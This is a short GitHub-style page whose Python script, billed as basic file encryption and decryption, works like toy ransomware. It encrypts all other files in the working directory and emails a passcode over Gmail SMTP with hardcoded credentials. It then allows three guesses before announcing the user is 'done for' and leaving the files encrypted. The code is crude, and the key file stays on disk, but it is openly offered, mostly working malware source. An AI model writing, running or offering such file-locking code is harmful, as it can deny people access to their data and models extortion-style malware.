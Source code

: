 # Encryption_Decryption
Basic level file encryption and decryption code

import os
from cryptography.fernet import Fernet
import traceback

email_add = 'fakeid2practice@gmail.com'   #create a fake account for the purpose
email_pass = 'fakeidprac'
files = []
count = 0
for file in os.listdir():
    if file == 'encrypt_decrypt.py' or file == 'The_key.key' or file == 'decrypt.py':   # create a condition to leave out some specified file of your liking 
    # Can ommit this line too.
        continue
    if os.path.isfile(file):     # Counts the number of files to encrypt
        count += 1
        files.append(file)


def key_generator():                   # Creates a key for encrypting purpose and utilizing back to decrypt
    key = Fernet.generate_key()
    return key


def secret_key_generator():              # Generates a key that would be given as paas-code for unlocking the decryption process
    skey = Fernet.generate_key()
    # key2 = write_key(key)
    return skey


def send_mail(email_id, email_password, msg):       # Sends the secret key to your mentioned email id  
    import smtplib
    try:
        server = smtplib.SMTP('smtp.gmail.com', port=587)
        server.starttls()
        server.login(email_id, email_password)
        server.sendmail(email_id, email_id, msg)
        server.quit()
    except Exception as e:
        traceback.print_exc(e)


loop_counter = 0

def decryptor(ki):                              # Decryption Process
    global loop_counter
    user_password = None
    while (user_password != ki):
        user_password = input('Enter the key: \n').encode()     # The pass_Code that should be entered correctly to start the decryption process
        # user_password = key
        loop_counter += 1                                       # Counter is set to give a maximum chance of 3 as mentioned to crack the pass_code
        if loop_counter == 3:
            break
        if (user_password != ki):
            # number = loop_counter - 1
            print("Oops! your fucked...its the wrong password..Files are still decrypted! :(")
            print('You CAN try again but for only few more times... :)')
        else:
            with open('The_key.key', 'rb') as file:
                secretkey = file.read()                      # Reads the key stored in the file to decrypt the files
            for file in files:
                with open(file, 'rb') as thefile:
                    contents = thefile.read()
                contents_decrypted = Fernet(secretkey).decrypt(contents)
                with open(file, 'wb') as thefile:
                    thefile.write(contents_decrypted)
            print('All your files are now decrypted..Enjoy! :)')
            print(f'No. of encrypted file: {count}')
    if loop_counter == 3:
        print('Your Done For!..Bye')                           # End Game :)


if __name__ == '__main__':
                                                            
    pass_key = key_generator()
    print(pass_key)                                         # Storing the encryption key in a file the call the functions
    with open('The_key.key', 'wb') as file:
        file.write(pass_key)
    for file in files:
        with open(file, 'rb') as thefile:
            contents = thefile.read()
        contents_encrypted = Fernet(pass_key).encrypt(contents)
        with open(file, 'wb') as thefile:
            thefile.write(contents_encrypted)

    print('All your files are now Encrypted!')
    print(f'No. of encrypted file: {count}')
    # os.system("python decrypt.py")
    s_key = secret_key_generator()
    send_mail(email_add, email_pass, s_key)
    secret_key = decryptor(s_key)
